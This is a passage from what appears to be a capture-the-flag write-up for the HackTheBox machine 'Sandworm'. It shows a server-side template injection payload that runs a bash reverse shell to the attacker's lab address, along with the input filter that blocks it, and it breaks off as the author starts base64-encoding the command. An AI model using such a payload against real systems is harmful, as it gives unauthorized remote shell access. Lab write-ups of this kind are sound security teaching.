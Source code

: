 ![image-20231114130333970](../img/image-20231114130333970.png)

### Shell

To get a shell on Sandworm I’ll try to create a SSTI payload that connects
back with a reverse shell. I learned earlier that `gpg` won’t let me have `<`
or `>` in my name. Trying here fails:

    
    
    Real name: {{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read() }}
    Invalid character in name
    The characters '<' and '>' may not appear in name
    Real name:
    

I’ll encode the reverse shell in base64 (the first result would probably work,
but I like to add spaces to get rid of characters like `+` and `=` and it
doesn’t change the command):
